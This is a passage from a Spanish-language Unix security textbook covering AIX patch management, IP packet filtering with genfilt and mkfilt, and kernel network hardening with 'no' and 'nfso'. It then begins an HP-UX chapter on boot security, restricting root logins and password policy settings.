denomina {\bf fileset}, y hace referencia a una serie de archivos que realizan
una cierta funci\'on en la m\'aquina (por ejemplo, la implantaci\'on de 
mecanismos de seguridad al subsistema de red, como veremos despu\'es). Para
actualizar los {\it filesets} existen actualizaciones de este formato, que se
pueden diferenciar de la versi\'on original porque su versi\'on acaba en un
n\'umero diferente de `0' (por ejemplo, un {\it fileset} puede estar marcado
como {\tt 4.3.3.0} y una actualizaci\'on como {\tt 4.3.3.4}). Los {\it filesets}
se agrupan en diferentes paquetes ({\bf packages}) en funci\'on de su cometido
(por ejemplo, el {\it package} que agrupa a todos los {\it filesets} 
relacionados con el sistema de red de AIX), y a su vez estos {\it packages} se
agrupan en {\sc lpp}s ({\it Licensed Program Product}), colecciones de {\it
software} establecido en una gran \'area. La nomenclatura de la unidad {\it 
software} m\'as peque\~na define tanto el {\it fileset} como el {\it package} y 
el {\sc lpp} al que pertenece: por ejemplo, {\tt bos.net.ipsec.rte} es un {\it
fileset} incluido en el paquete {\tt bos.net}, que a su vez pertenece al {\sc
lpp} {\tt bos} ({\it Basic Operating System}). Aparte de la anterior 
clasificaci\'on, los parches tal y como los conocemos en Unix se denominan {\sc 
ptf}s ({\it Program Temporary Fix}), y cada uno de ellos viene referenciado por
un n\'umero \'unico llamado {\sc apar} ({\it Authorized Program Analysis 
Report}).\\
\\La distribuci\'on de todo este {\it software} para AIX, tanto paquetes 
originales como 
actualizaciones, se realiza en un formato de fichero denominado {\tt bff} ({\it 
Backup File Format}); este formato es el cl\'asico de la orden {\tt backup} de
muchos Unices, por lo que puede ser instalado mediante {\tt restore}, aunque su
utilizaci\'on no es en absoluto recomendable: para instalar un nuevo paquete o
actualizar uno existente hemos de utilizar el comando {\tt installp} o, m\'as
habitualmente, {\tt smit}. Mediante {\tt `lslpp -L'} podemos ver las versiones 
del {\it software} instalado en un sistema AIX, y con {\tt `lslpp -h'} un 
hist\'orico de sus versiones:
\begin{quote}
\begin{verbatim}
bruja:/# lslpp -L Java130.rte.lib
  Fileset                      Level  State  Description
  --------------------------------------------------------------------------
  Java130.rte.lib            1.3.0.5    C    Java Runtime Environment
                                             Libraries 


State codes: 
 A -- Applied. 
 B -- Broken. 
 C -- Committed. 
 O -- Obsolete.  (partially migrated to newer version) 
 ? -- Inconsistent State...Run lppchk -v. 
bruja:/# lslpp -h X11.adt.lib
  Fileset         Level     Action       Status       Date         Time        
  --------------------------------------------------------------------------
Path: /usr/lib/objrepos
  X11.adt.lib
                  4.3.3.0   COMMIT       COMPLETE     09/29/99     09:55:30    
                 4.3.3.10   COMMIT       COMPLETE     06/12/01     11:25:48    
bruja:/#  
\end{verbatim}
\end{quote}
IBM ofrece sus parches para AIX tanto en CD-ROM como a trav\'es de Internet, 
desde la direcci\'on siguiente:
\begin{quote}
\begin{verbatim}
http://techsupport.services.ibm.com/server/support/
\end{verbatim}
\end{quote}
Cada parche se suele identificar de forma un\'{\i}voca bien a trav\'es de su
n\'umero {\sc ptf}, bien a trav\'es de su {\sc apar}, o simplemente por su
nombre y versi\'on. Para instalarlo en un sistema AIX se suele utilizar {\tt 
smit install$\_$update} o, desde
l\'{\i}nea de comando, la orden {\tt instfix}; no obstante, la instalaci\'on de 
parches y actualizaci\'on de {\it software} en general suele resultar bastante 
engorrosa en AIX si se realiza \'unicamente de esta forma: en funci\'on de 
nuestro nivel de sistema operativo (determinado con la orden {\tt `oslevel'}) y 
la actualizaci\'on que necesitemos llevar a cabo, es posible que la 
instalaci\'on de un \'unico parche implique horas de trabajo, ya que ese parche 
puede
necesitar como prerequisito un conjunto de parches que no est\'an instalados, y
que a su vez necesitan m\'as parches; de esta forma, es muy posible que para
una peque\~na actualizaci\'on necesitemos m\'as de un {\it gigabyte} de ficheros
descargados en el sistema.\\
\begin{figure}
\begin{center}

\includegraphics[width=\textwidth]{fixdist.png}
% Esta linea es para el output de BM2FONT
%\centerline{\input{prova}\setprova}
\end{center}
\caption{Interfaz de {\tt fixdist} (AIX).}
\label{fixdist}
\end{figure}
\\Por fortuna, en un sistema AIX podemos utilizar {\tt fixdist}, un c\'omodo
entorno gr\'afico (en la figura \ref{fixdist} podemos ver su interfaz) que
nos facilitar\'a enormente esta tarea, ya que calcula todos los parches que
conformar\'an nuestro \'arbol de prerequisitos y los descarga autom\'aticamente;
gracias a esta herramienta, descargar todos los prerrequisitos de un
determinado parche se convierte en una tarea trivial.
\section{Extensiones de la seguridad: filtros IP}
En versiones m\'as o menos recientes de AIX el operativo proporciona `de serie' unos interesantes mecanismos de seguridad IP basados en t\'uneles y filtros de 
paquetes, algo similar -- guardando las distancias -- a {\tt ipchains} o {\tt
iptables} en Linux; el uso de t\'uneles requiere filtros, pero el de filtros no
necesita para nada los t\'uneles. Para poder utilizar ambos mecanismos 
necesitamos tener instalado el paquete (m\'as concretamente, el {\it fileset}) 
{\tt bos.net.ipsec.rte}:
\begin{quote}
\begin{verbatim}
bruja:/# lslpp -l bos.net.ipsec.rte
  Fileset                      Level  State      Description
  ----------------------------------------------------------------------------
Path: /usr/lib/objrepos
  bos.net.ipsec.rte          4.3.3.0  COMMITTED  IP Security

Path: /etc/objrepos
  bos.net.ipsec.rte          4.3.3.0  COMMITTED  IP Security
bruja:/#
\end{verbatim}
\end{quote}
Un t\'unel define una asociaci\'on entre dos m\'aquinas en las que se han
especificado par\'ametros de seguridad compartidos entre los dos extremos del
t\'unel; el hecho de que se implique a otra m\'aquina hace que, excepto en 
entornos muy homog\'enos -- sistemas AIX -- o en casos concretos, no se suela
utilizar este mecanismo. En cambio, el filtrado de paquetes s\'{\i} que se 
utiliza, ya que proporciona a un entorno aislado una protecci\'on frente a 
otras m\'aquinas sin tener que modificar para nada el operativo o las 
aplicaciones de estas: proporciona un sistema de filtrado sencillo pero 
efectivo en m\'aquinas en las que por cualquier motivo -- dinero, utilizaci\'on,
rendimiento\ldots -- no se pueden implantar otras soluciones cortafuegos m\'as
completas, como {\it CheckPoint Firewall--1} o {\it IBM SecureWay Firewall}. Por
este motivo, en este punto vamos a comentar brevemente algunos aspectos del 
filtrado de paquetes en AIX, sin entrar en el apartado de t\'uneles; si alguien
est\'a interesado en profundizar m\'as en estos mecanismos de seguridad IP para
AIX, puede consultar \cite{kn:ibm97b}.\\
\\Para gestionar este sistema de filtrado podemos utilizar \'ordenes como {\tt
rmfilt}, {\tt mkfilt}, {\tt genfilt} o {\tt lsfilt}; como siempre, es 
recomendable consultar las p\'aginas de ayuda de cada una de ellas, aunque en
este caso m\'as que recomendable podr\'{\i}amos decir {\bf imprescindible}, ya 
que el manejo de los filtros no es ni mucho menos inmediato, y la sintaxis para 
definir reglas es relativamente compleja. Para poner en marcha el sistema de 
filtrado necesitamos generar reglas y posteriormente activarlas; en el fichero 
{\tt /usr/samples/ipsec/filter.sample} tenemos ejemplos de como definir
una regla, un filtro de red, mediante {\tt genfilt}.\\
\\El uso de {\tt genfilt} puede llegar a ser bastante complicado, debido 
principalmente a su sintaxis (como acabamos de decir, es {\bf imprescindible}
consultar su p\'agina de manual). Para definir una regla nueva es obligatorio
indicar al menos el protocolo sobre el que se aplicar\'a (IPv4 o IPv6), as\'{\i}
como el {\it host} o red origen y su m\'ascara correspondiente; el resto de
par\'ametros (destino, puertos de conexi\'on, interfaz de red\ldots) son 
opcionales, aunque como sucede en muchas otras ocasiones, es necesario estar
atento a los valores que el sistema toma por defecto: por simple Ley de Murphy,
ser\'an restrictivos cuando nos interese que sean permisivos y viceversa. Para
hacernos una idea de c\'omo se definen reglas mediante {\tt genfilt}, si por 
ejemplo necesit\'aramos permitir todo el tr\'afico de una red local contra una
m\'aquina AIX situada en ella (192.168.0.10), la orden para lograrlo ser\'{\i}a
similar a:
\begin{quote}
\begin{verbatim}
bruja:/# genfilt -v 4 -a P -s 192.168.0.0 -m 255.255.0.0 -d 192.168.0.10 -M \
> 255.255.255.255 -i all
bruja:/# 
\end{verbatim}
\end{quote}
Aunque no vamos a entrar aqu\'{\i} en detalles de la sintaxis de las reglas, 
veremos al final de este punto un {\it shellscript} como ejemplo de filtrado en
una m\'aquina AIX en el que se incluir\'an algunas definiciones de filtros; en
cualquier caso, como ya hemos dicho, existe un fichero con ejemplos de reglas en
{\tt /usr/samples/ipsec/filter.sample} que podemos consultar para hacernos una
idea de la sintaxis de {\tt genfilt}.\\
\\Para activar el conjunto de reglas de filtrado que hayamos definido 
previamente mediante tenemos que utilizar la orden {\tt mkfilt}; no obstante, 
antes de esto
debemos haber generado los dispositivos especiales {\tt ipsec$\_$v4} e {\tt 
ipsec$\_$v6} (como su nombre indica, el segundo hace referencia a IPv6, mientras
que el primero es relativo al protocolo cl\'asico) en el sistema de ficheros 
utilizando {\tt mkdev}, ya que de lo contrario la activaci\'on no ser\'a 
posible:
\begin{quote}
\begin{verbatim}
bruja:/# mkfilt -v 4
Device ipsec_v4 not found.
Filter activation for IPv4 not performed.
bruja:/# /usr/sbin/mkdev -c ipsec -t 4
ipsec_v4 Available
bruja:/# /usr/sbin/mkdev -c ipsec -t 6
ipsec_v6 Available
bruja:/# 
\end{verbatim}
\end{quote}
Una vez creados ambos ficheros especiales ya podemos activar el {\it ruleset}
definido; por ejemplo, el siguiente {\it shellscript} -- o modificaciones del
mismo -- puede utilizarse para definir un sencillo sistema de filtrado en
nuestra m\'aquina:
\begin{quote}
\begin{verbatim}
bruja:/# cat /etc/filtros
#!/bin/sh
#
# Script para filtrar paquetes en una maquina AIX.
# Antonio Villalon, Noviembre 2001
#
#############
# Eliminamos y deshabilitamos reglas anteriores
#############
/usr/sbin/rmfilt -v 4 -n all
/usr/sbin/rmfilt -v 6 -n all
/usr/sbin/mkfilt -v 4 -d
/usr/sbin/mkfilt -v 6 -d
#############
# Permitimos todo desde LAN
#############
genfilt -v 4 -a P -s 192.168.0.0 -m 255.255.0.0 -d 192.168.0.10 -M \
255.255.255.255 -i all
#############
# Salida, todo abierto
#############
genfilt -v 4 -a P -s 192.168.0.10 -m 255.255.255.255 -d 0 -M 0
#############
# Vuelta de DNS
#############
genfilt -v 4 -a P -s 0 -m 0 -d 0 -M 0 -g N -c udp -o eq -p 53 -O gt -P 1023
#############
# Prohibimos todo lo no habilitado por defecto
#############
genfilt -v 4 -a P -s 0 -m 0 -d 192.168.0.10 -M 255.255.255.255 -c tcp/ack
genfilt -v 4 -a D -s 0 -m 0 -d 192.168.0.10 -M 255.255.255.255 
#############
# Activamos las reglas para IP e IPv6
#############
/usr/sbin/mkfilt -v 4 -u
/usr/sbin/mkfilt -v 6 -u
bruja:/#
\end{verbatim}
\end{quote}
Podemos ver que la activaci\'on del conjunto de reglas se realiza mediante la
opci\'on {\tt `-u'} de {\tt mkfilt}, tanto para IPv4 como para IPv6; esto 
significa que es a partir de la ejecuci\'on de esta orden cuando el sistema de 
filtrado comienza a funcionar.\\
\\Para consultar el conjunto de reglas definidas en nuestra m\'aquina podemos
utilizar el comando {\tt lsfilt} (si lo ejecutamos sin ninguna opci\'on nos
proporcionar\'a el listado de todas las reglas, tanto activas -- las que se 
est\'an aplicando -- como inactivas -- definidas pero sin ser aplicadas --). 
Como en otros sistemas de filtrado, a cada regla se le asigna un n\'umero de
orden, y es ese n\'umero el que indica la precedencia de su aplicaci\'on: si
un paquete hace {\it match} con una cierta regla, es esa la que se aplica, 
descartando las que son posteriores; es una aproximaci\'on similar a la seguida
en {\it Firewall--1} o {\it ipchains}, pero diferente de la de otros cortafuegos
como {\it IP Filter}. Para consultar una regla concreta podemos utilizar las
diferentes opciones de la orden {\tt lsfilt}:
\begin{quote}
\begin{verbatim}
bruja:/# lsfilt -v 4 -n 3
Rule 3:
Rule action         : permit
Source Address      : 192.168.0.0
Source Mask         : 255.255.0.0
Destination Address : 192.168.0.10
Destination Mask    : 255.255.255.255
Source Routing      : yes
Protocol            : all
Source Port         : any 0
Destination Port    : any 0
Scope               : both
Direction           : both
Logging control     : no
Fragment control    : all packets
Tunnel ID number    : 0
Interface           : all
Auto-Generated      : no
bruja:/#
\end{verbatim}
\end{quote}
Para acabar este punto quiz\'as es necesario saber c\'omo deshabilitar el 
sistema de filtrado; ya lo hemos visto antes, en el {\it shellscript} de 
ejemplo, pero hay que recordar que mediante la opci\'on {\tt `-d'} de la orden 
{\tt mkfilt} podemos hacerlo. Esto es especialmente importante en situaciones en
las que un filtro incorrecto deja inaccesible el sistema o alguna aplicaci\'on
cr\'{\i}tica, ya que la posibilidad de deshabilitar todo el filtrado mediante
una orden sencilla, en l\'{\i}nea de comandos, proporciona una soluci\'on 
r\'apida y efectiva este tipo de problemas.
\section{El subsistema de red}
Igual que en Solaris hemos visto, antes de comentar aspectos relativos a la
seguridad del subsistema de red del operativo, la orden {\tt `ndd'}, en AIX es
necesario introducir el comando {\tt `no'} ({\it Network Options}), encargado 
de configurar (y visualizar) par\'ametros del subsistema de red de AIX. Y de la 
misma forma que hemos dicho que la gesti\'on de seguridad de los usuarios 
(contrase\~nas, 
restricciones de acceso, l\'{\i}mites\ldots) es en AIX excelente, y que otros
Unices deber\'{\i}an tomar nota, es justo decir ahora que la configuraci\'on de 
par\'ametros del n\'ucleo relativos a la seguridad en AIX es m\'as pobre que en 
Solaris, aunque no por ello deba considerarse d\'ebil o inadecuada.\\
\\Como en cualquier Unix, una norma b\'asica en la seguridad del subsistema de
red para prevenir ataques de {\it spoofing} es {\bf no} reenviar paquetes a no 
ser que nuestro equipo trabaje como un {\it router} o una pasarela; por tanto, 
es una buena idea desactivar el {\it IP Forwarding} tanto de tramas IP como de
tramas IPv6: 
\begin{quote}
\begin{verbatim}
bruja:/# no -o ipforwarding=0
bruja:/# no -o ip6forwarding=0
bruja:/#
\end{verbatim}
\end{quote}
Para evitar ataques de {\it SYN Flooding} es interesante el par\'ametro {\tt
clean$\_$partial$\_$conns}, que define si se van a eliminar aleatoriamente 
conexiones incompletas (aquellas en las que no se ha completado el protocolo a 
tres bandas) de la cola del servidor para dejar hueco a nuevas entradas:
\begin{quote}
\begin{verbatim}
bruja:/# no -o clean_partial_conns=1
bruja:/#
\end{verbatim}
\end{quote}
Respecto a algunos aspectos del protocolo {\sc icmp}, es recomendable no 
responder a los {\it pings} lanzados a direcciones de {\it broadcast}, ya que 
si lo hacemos podemos llegar a saturar una red, facilitando ataques de 
negaci\'on de servicio; esto se consigue asignando a la directiva {\tt 
bcastping} un valor falso (`0'). De la misma forma, es tambi\'en interesante 
no permitir {\it broadcasts} dirigidos a una pasarela para que sean emitidos en
el otro extremo de la misma, para lo que debemos asignar a {\tt 
directed$\_$broadcast} un valor `0'. Adem\'as podemos hacer que nuestra 
m\'aquina no responda a peticiones {\sc icmp} del tipo {\sc 
icmp$\_$mask$\_$request}, asignando a la directiva {\tt icmpaddressmask} el 
valor `0' (el que tiene por defecto):
\begin{quote}
\begin{verbatim}
bruja:/# no -o bcastping=0
bruja:/# no -o directed_broadcast=0
bruja:/# no -o icmpaddressmask=0
bruja:/#
\end{verbatim}
\end{quote}
Tambi\'en relacionados con el protocolo {\sc icmp}, es necesario comentar 
aspectos relativos a las tramas {\sc icmp$\_$redirect}; podemos restringir la 
emisi\'on de estos paquetes (recordemos que s\'olo un {\it router} deber\'{\i}a
poder enviarlos) mediante la directiva {\tt ipsendredirects}, 
mientras que para deshabilitar la recepci\'on de los mismos podemos utilizar 
{\tt ipignoreredirects}:
\begin{quote}
\begin{verbatim}
bruja:/# no -o ipsendredirects=0
bruja:/# no -o ipignoreredirects=1
bruja:/#
\end{verbatim}
\end{quote}
Como ya vimos, la gesti\'on de paquetes {\it source routed} tambi\'en puede
presentar serias amenazas a nuestra seguridad; en AIX tenemos varios 
par\'ametros relativos al manejo de este tipo de tramas. En primer lugar es
necesario desactivar tanto la generaci\'on como la recepci\'on y el reenv\'{\i}o
de las mismas, mediante los par\'ametros {\tt ipsrcroutesend}, {\tt 
ipsrcrouterecv} e {\tt ipsrcrouteforward} respectivamente, asignandoles a todos 
valores de `0' (falso); el \'ultimo de ellos tiene un equivalente especial para
IPv6 denominado {\tt ip6srcrouteforward}. Adem\'as, 
otro par\'ametro importante es {\tt nonlocsrcroute}, que indica que s\'olo los 
paquetes {\it source routed} estrictos ({\it strict source routed}, paquetes en 
los que se especifica el camino concreto que ha de seguir la trama, a 
diferencia de los paquetes {\it loose source routed}, en los que s\'olo se
marca un nodo por el que la trama ha de pasar y no el camino completo) pueden 
ser reenviados a trav\'es del {\it 
host}; su valor tambi\'en ha de ser falso\footnote{En sistemas {\sc SP/2}
({\it Scallable Power Parallel}) de IBM esto puede ser problem\'atico para 
algunas aplicaciones, por lo que es conveniente consultar la documentaci\'on
del sistema en cada caso.}:
\begin{quote}
\begin{verbatim}
bruja:/# no -o ipsrcroutesend=0
bruja:/# no -o ipsrcrouterecv=0
bruja:/# no -o ipsrcrouteforward=0
bruja:/# no -o ip6srcrouteforward=0
bruja:/# no -o nonlocsrcroute=0
bruja:/#
\end{verbatim}
\end{quote}
Respecto al {\it timeout} de la cach\'e {\sc arp} del que ya hemos hablado en
Solaris y Linux, en AIX este par\'ametro viene definido por la variable {\tt
arpt$\_$killc}; no obstante, su valor afecta tanto a entradas {\sc arp} no
utilizadas como a entradas activas, por lo que nos debemos plantear con cuidado
la conveniencia de modificarlo; en cualquier caso, podemos definir en minutos
el {\it timeout} tambi\'en mediante la orden {\tt no}:
\begin{quote}
\begin{verbatim}
bruja:/# no -o arpt_killc=1
bruja:/#
\end{verbatim}
\end{quote}
Adem\'as de la orden {\tt `no'}, otro comando que nos permite configurar 
par\'ametros interesantes para nuestra seguridad a nivel del subsistema de red
-- especialmente si administramos un servidor {\sc nfs} -- es {\tt `nfso'}, que
configura y visualiza diferentes par\'ametros relacionados con este sistema de
ficheros; su sintaxis es bastante similar a la de {\tt `no'} (en cualquier caso,
como sucede con todas las \'ordenes de un sistema Unix, es recomendable 
consultar la p\'agina de manual correspondiente), y entre los par\'ametros que
permite configurar existen tambi\'en algunos relacionados con la seguridad del
sistema. Quiz\'as el m\'as importante es {\tt portcheck}, que define el 
comportamiento del servidor ante peticiones provenientes de puertos no 
privilegiados: si su valor es 0 (por defecto es as\'{\i}) no se efect\'ua
ning\'un tipo de comprobaci\'on, mientras que si es 1 se realiza el {\it port
checking} y s\'olo se admiten peticiones desde puertos remotos privilegiados;
por ejemplo, si queremos que esto sea as\'{\i} debemos ejecutar la siguiente
orden (recordamos que, al igual que suced\'{\i}a con {\tt `no'}, los cambios
s\'olo tienen efecto sobre el {\it kernel} que se encuentra en ejecuci\'on, por
lo que si se produce un reinicio de la m\'aquina el comportamiento ser\'a el
definido por defecto):
\begin{quote}
\begin{verbatim}
bruja:/# nfso -o portcheck
portcheck= 0
bruja:/# nfso -o portcheck=1
bruja:/# nfso -o portcheck
portcheck= 1
bruja:/# 
\end{verbatim}
\end{quote}
Existen otros par\'ametros configurables mediante {\tt nfso} que nos pueden
resultar interesantes para incrementar nuestra seguridad; por ejemplo, {\tt
nfs$\_$use$\_$reserve$\_$ports} puesto a 0 (por defecto) especificar\'a que se 
utilicen puertos no reservados para las comunicaciones entre cliente y servidor
{\sc nfs}, {\tt nfs$\_$max$\_$connections} y {\tt nfs$\_$max$\_$threads} definen
respectivamente l\'{\i}mites al n\'umero de conexiones simult\'aneas y de hilos 
servidores que se van a aceptar en un sistema AIX, etc. Como siempre, es 
imprescindible consultar la p\'agina de manual correspondiente en la versi\'on
de AIX que estemos ejecutando para conocer todos los par\'ametros sintonizables
mediante {\tt `nfso'} y sus repercusiones en nuestra seguridad.\\
\\Tal y como suced\'{\i}a con {\tt `ndd'}, los cambios efectuados con {\tt 
`no'} tienen efecto sobre el {\it kernel} que se est\'a ejecutando en un cierto 
momento, por lo que si el sistema se reinicia deberemos volver a dar el valor 
que nos interese a ciertos par\'ametros ejecutando la orden en el arranque de 
la m\'aquina. En AIX este arranque es m\'as peculiar que en otros entornos, y
si queremos a\~nadir estas instrucciones en cada inicio del sistema debemos 
crear el {\it script} correspondiente y planificarlo para que se ejecute desde 
{\tt /etc/inittab} (\cite{kn:bha01}):
\begin{quote}
\begin{verbatim}
bruja:/# cat /etc/rc.securenet
/usr/sbin/no -o ipforwarding=0
/usr/sbin/no -o ip6forwarding=0
/usr/sbin/no -o clean_partial_conns=1
/usr/sbin/no -o bcastping=0
/usr/sbin/no -o directed_broadcast=0
/usr/sbin/no -o icmpaddressmask=0
/usr/sbin/no -o ipsendredirects=0
/usr/sbin/no -o ipignoreredirects=1
/usr/sbin/no -o ipsrcroutesend=0
/usr/sbin/no -o ipsrcrouterecv=0
/usr/sbin/no -o ipsrcrouteforward=0
/usr/sbin/no -o ip6srcrouteforward=0
/usr/sbin/no -o arpt_killc=1
/usr/sbin/nfso -o portcheck=1
bruja:/# chmod 700 /etc/rc.securenet
bruja:/# mkitab "rcsecurenet:2:once:/etc/rc.securenet 2>&1 >/dev/console"
bruja:/#
\end{verbatim}
\end{quote}

\cleardoublepage
\chapter{HP-UX}
\section{Introducci\'on}
HP-UX es la versi\'on de Unix desarrollada y mantenida por Hewlett--Packard 
desde 1983, ejecutable t\'{\i}\-pi\-ca\-men\-te sobre procesadores HP PA RISC y 
en sus \'ultima versiones sobre Intel Itanium (arquitectura Intel de 64 bits); 
a pesar de estar basada ampliamente en {\it System V} incorpora importantes 
caracter\'{\i}sticas BSD. En la actualidad la \'ultima versi\'on del operativo 
es la 11.11, aunque existen numerosas instalaciones de sistemas m\'as antiguos, 
especialmente HP-UX 10.x o incluso 9.x.\\
\\HP-UX es, como la mayor parte de Unices comerciales, un entorno de trabajo
flexible, potente y estable, que soporta un abanico de aplicaciones que van
desde simples editores de texto a complicados programas de dise\~no gr\'afico o
c\'alculo cient\'{\i}fico, pasando por sistemas de control industrial que
incluyen planificaciones de tiempo real.\\
\\Durante los \'ultimos a\~nos Hewlett--Packard, como muchos otros fabricantes,
parece haberse interesado bastante por la seguridad en general, y en concreto
por los sistemas de protecci\'on para sus sistemas; prueba de ello es la gama
de productos relacionados con este campo desarrollados para HP-UX, como el
sistema de detecci\'on de intrusos {\sc ids/9000} para HP-UX 11.x corriendo 
sobre m\'aquinas HP-9000 o la utilidad {\it Security Patch Check}, similar al 
{\it PatchDiag} de Sun Microsystems. Tambi\'en es importante destacar las 
grandes mejoras en cuanto a seguridad del sistema se refiere entre HP-UX 9.x, 
HP-UX 10.x y muy especialmente HP-UX 11.x.\\
\\En este cap\'{\i}tulo, como hemos hecho antes con Solaris, Linux y AIX,
hablaremos de aspectos de la seguridad particulares de HP-UX, teniendo siempre
presente que el resto de cap\'{\i}tulos del documento tambi\'en son aplicables
a este operativo. Para conocer m\'as HP-UX podemos consultar \cite{kn:reh00} o
\cite{kn:pon01}, y si nos interesa especialmente su seguridad una obra 
obligatoria es \cite{kn:won01}. Aparte de documentaci\'on impresa, a trav\'es 
de Internet podemos acceder a numerosa documentaci\'on t\'ecnica de HP-UX, en 
la URL {\tt http://docs.hp.com/}; por supuesto, tambi\'en son b\'asicas para 
una correcta administraci\'on las p\'aginas de manual que se instalan con el 
producto.
\section{Seguridad f\'{\i}sica en PA--RISC}
Los sistemas de las series HP9000 incluyen un {\it firmware} muy similar a la 
{\it OpenBoot PROM} de las estaciones y servidores {\sc sparc} que se denomina 
{\sc pdc} ({\it Processor Dependent Code}) y que implementa las funcionalidades
dependientes del procesador; su funci\'on b\'asica es, en el arranque de la 
m\'aquina, inicializar el procesador y comprobar que su estado es correcto
mediante unas pruebas llamadas {\sc post} ({\it Power On Self Test}). Si todo es
satisfactorio el PDC carga el {\sc isl} ({\it Initial System Loader}) o {\sc 
ipl} ({\it Initial Program Loader}) y le transfiere el control para que este 
pueda arrancar el sistema operativo.\\
\\Como en cualquier dispositivo {\it hardware} existen formas de interrumpir el 
proceso de arranque habitual para modificar su comportamiento; en concreto, en 
la familia HP9000 suele existir un intervalo de 10 
segundos antes de cargar el {\sc isl} en el que sin m\'as que pulsar la tecla 
{\sc esc}\footnote{Dependiendo de la serie concreta es posible que la 
pulsaci\'on de cualquier tecla interrumpa el proceso; esto sucede, por ejemplo,
en los modelos de las series 800.} se puede acceder al men\'u de arranque del 
equipo y, desde este, definir dispositivos de arranque alternativos o 
interactuar con el {\sc isl}, por ejemplo para pasar un par\'ametro al {\it 
kernel} de HP-UX antes de cargarlo; decimos `suele existir' porque el intervalo
durante el cual se puede interrumpir el autoarranque se respeta s\'olo si las
variables {\tt autoboot} y {\tt autosearch} del {\sc isl} est\'an activadas, ya
que en caso contrario el sistema autom\'aticamente accede al men\'u de arranque
y no se inicia hasta que un operador no interactua con el mismo.\\
\\Si al interrumpir el proceso de arranque elegimos interactuar con el {\sc 
isl} llegamos a un {\it prompt} sencillo en el que podemos comenzar a introducir
\'ordenes desde el cargador {\tt hpux}, como {\tt `hpux -v'}, que muestra la
versi\'on del {\sc isl} o {\tt `hpux -iS'}, que inicia el operativo en modo
monousuario:
\begin{quote}
\begin{verbatim}
Hard booted.

ISL Revision A.00.09  March 27, 1990

ISL> hpux -v
Secondary Loader 9000/700
Revision 1.1
@(#) Revision 1.1 Wed Dec 10 17:24:28 PST 1986

ISL>
\end{verbatim}
\end{quote}
Antes de acceder a este {\it prompt} podemos activar o resetar una variable 
denominada {\tt secure}, que indica el modo de arranque seguro del equipo; si
est\'a activada no se podr\'a interactuar con el arranque del sistema, lo cual
implica una protecci\'on relativa: un atacante situado delante del equipo lo
tendr\'a m\'as dif\'{\i}cil para arrancar el sistema desde un dispositivo que
no sea el est\'andar, o para iniciarlo en modo monousuario. El hecho de que esta
protecci\'on sea relativa es l\'ogico: si no fuera reversible, nunca nadie m\'as
podr\'{\i}a modificar la secuencia de arranque del equipo; si aunque el modo de 
arranque seguro est\'e activado queremos o necesitamos interrumpir el arranque,
no tenemos m\'as que desconectar todos los dispositivos arrancables del equipo
(discos, red, unidad de CD-ROM\ldots), de forma que el arranque falle y se
acceda al men\'u para poder resetear la variable {\tt secure}.
\section{Usuarios y accesos al sistema}
Como sucede en Linux, el acceso {\tt root} remoto a una m\'aquina HP-UX se puede
y debe limitar desde el archivo {\tt /etc/securetty}, donde se listan las
terminales desde las que el superusuario del sistema puede acceder al mismo; si
queremos que el {\tt root} s\'olo pueda conectar desde la consola f\'{\i}sica
de la m\'aquina este archivo debe ser creado de la forma siguiente:
\begin{quote}
\begin{verbatim}
marta:/# echo console > /etc/securetty 
marta:/# chown root:sys /etc/securetty 
marta:/# chmod 644 /etc/securetty 
marta:/# 
\end{verbatim}
\end{quote}
De nuevo, al igual que suced\'{\i}a en Linux, esto no evita que se pueda 
ejecutar {\tt `su'} desde cualquier sesi\'on para 
conseguir privilegios de administrador, ni deshabilita el acceso remoto 
v\'{\i}a {\sc ssh} o {\it X Window}. En el primer caso debemos vetar el acceso
desde el archivo de configuraci\'on de {\tt sshd}, mientras que en el segundo
podemos hacerlo de la forma siguiente:
\begin{quote}
\begin{verbatim}
marta:/# cp -p /usr/dt/config/Xstartup /etc/dt/config/Xstartup 
marta:/# print "[[ ${USER} = root ]] && exit 1" >>/etc/dt/config/Xstartup 
marta:/# 
\end{verbatim}
\end{quote}
Muchos de los par\'ametros que controlan el acceso de los usuarios a un sistema
HP-UX se definen en el archivo {\tt /etc/default/security}, que ha de tener 
permiso de escritura para {\tt root} y de lectura para todos los usuarios; si 
este fichero no existe, el administrador puede -- y debe -- crearlo. Esta
{\it feature} del operativo fue introducida de forma no documentada en HP-UX
11.0, y se incluye tambi\'en en HP-UX 11i, ya documentada en la p\'agina de 
manual de {\tt `security'}. Un ejemplo de este archivo puede ser el siguiente:
\begin{quote}
\begin{verbatim}
marta:/# cat /etc/default/security
ABORT_LOGIN_ON_MISSING_HOMEDIR=1
MIN_PASSWORD_LENGTH=8
NOLOGIN=1
NUMBER_OF_LOGINS_ALLOWED=3
PASSWORD_HISTORY_DEPTH=2
SU_ROOT_GROUP=admins
#SU_DEFAULT_PATH=
marta:/# 
\end{verbatim}
\end{quote}
Seguramente los par\'ametros m\'as importantes que podemos encontrar en este
archivo son los referentes a las claves de usuario; tenemos en primer lugar 
{\sc min$\_$password$\_$length}, que como su nombre indica
define la longitud m\'{\i}nima de las contrase\~nas en el sistema; mientras que
en un HP-UX normal no afecta al {\tt root}, en Trusted HP-UX s\'{\i} que lo 
hace. Puede adoptar cualquier valor entre 6 (el m\'{\i}nimo por defecto) y 8 en
los entornos normales, y entre 6 y 80 en Trusted HP-UX. El otro par\'ametro
referente a las contrase\~nas es {\sc password$\_$history$\_$depth}, que marca
los {\it passwords} antiguos contra los que se compara uno nuevo: si su valor es
N, cuando un usuario cambia su clave no podr\'a utilizar ninguna de sus N
anteriores contrase\~nas. El valor de esta variable puede ser cualquier n\'umero
entre 1 (valor por defecto) y 10, el valor m\'aximo; si su valor es 2, evitamos
que un usuario alterne constantemente dos contrase\~nas en el sistema.\\
\\Otro grupo de directivas es el formado por aquellas que afectan a la entrada
